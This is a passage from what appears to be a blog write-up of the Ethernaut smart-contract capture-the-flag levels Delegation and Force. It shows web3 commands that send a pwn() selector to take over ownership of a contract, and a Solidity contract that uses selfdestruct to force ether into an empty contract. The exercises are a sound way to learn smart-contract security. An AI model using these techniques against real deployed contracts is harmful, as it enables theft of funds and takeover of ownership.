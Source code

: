Putting it altogether, we have our data.
{% highlight code%}
0x2e1a7d4d000000000000000000000000000000000000000000000000000000000000d903
{% endhighlight %}

Of course some function has more than one argument, just put the next argument with zero padding after the previous argument and don't forget to put its data type to compute Keccak-256 SHA3 (e.g. `transfer(address,uint256)`)

This is the data we have to send to call `pwn()`.
{% highlight code%}
bytes4(keccak256("pwn()")) => dd365b8b //first 4 bytes, since there is no argument
{% endhighlight %}

We can use `Keccak-256 SHA3` in web3 with `web3.sha3(...)`.
```javascript
> let mydata = web3.sha3("pwn()").substring(2,10)
> await contract.sendTransaction({data:mydata})
```

And you will be the owner now.
```javascript
> await contract.owner()
"0x07....."
```
(or you can use Remix and just click on the pwn() function button)

Remember that this is not a vulnerability in Ethereum, it is a developer error.
If you can remember, [Parity Multisig was hacked][delegation-parity] with 31 Millions Ether stolen with this kind of error a few months ago.

<h3>5. Force</h3>
Make the balanece of the contract greater than zero and win this challenge, hmm, how easy it is.
But wait, when we look at a given source code. It is an empty contract.
<br>
If we try to send transaction directly to the target contract, it will show `falied` status.
Because there is no `payable` function since it is an empty contract. How to `force` this contract to 
recieve our ether?. Let's deep dive into the [doc.][doc]
{% highlight code%}
A contract without a payable fallback function can receive Ether as a recipient of a coinbase transaction (aka miner block reward) or as a destination of a `selfdestruct`.

A contract cannot react to such Ether transfers and thus also `cannot reject them`. This is a design choice of the EVM and Solidity cannot work around it.
{% endhighlight %}

You see that we can 
1. set to recipient of a coinbase transaction
2. use `selfdestruct` 

Let's use `selfdestruct`. Whenever it is called, that contract will be changed to `suicide` state
and send all money to the the address in a given parameter.

{% highlight code%}
pragma solidity ^0.4.18;

contract ForcePwn{
    address public victim_address;

    function ForcePwn(address _address){
        victim_address = _address;
    }
    function pwn() payable{
        selfdestruct(victim_address);
    }
}
{% endhighlight %}


[ethernaut-ctf]: https://ethernaut.zeppelin.solutions
[eternaut]: https://en.wikipedia.org/wiki/The_Eternaut
[metamask]: https://metamask.io
[remix]: https://remix.ethereum.org
[doc]: http://solidity.readthedocs.io/en/develop/contracts.html
[etherscan]: https://ropsten.etherscan.io
[delegation-parity]: https://blog.zeppelin.solutions/on-the-parity-wallet-multisig-hack-405a8c12e8f7
[reentrancy-blog]: https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4
[reentrancy-thedao]: http://hackingdistributed.com/2016/07/13/reentrancy-woes/
[img-intro]: {{ site.baseurl }}/assets/img/posts/ethernautctf/intro.PNG 
[img-data-sent]: {{ site.baseurl }}/assets/img/posts/ethernautctf/data-sent.PNG 
[img-how-reentrnacy-work]: {{ site.baseurl }}/assets/img/posts/ethernautctf/how-reentrancy-work.PNG 